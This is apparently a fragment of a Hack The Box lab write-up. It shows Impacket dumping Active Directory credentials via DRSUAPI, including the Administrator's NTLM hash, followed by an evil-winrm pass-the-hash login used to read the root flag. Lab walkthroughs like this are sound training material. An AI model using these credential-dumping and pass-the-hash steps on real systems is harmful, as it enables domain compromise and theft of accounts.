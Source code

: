 ```bash
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

- Let's connect as Administrator using the hash `evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6` and get the root flag `type ../Desktop/root.txt`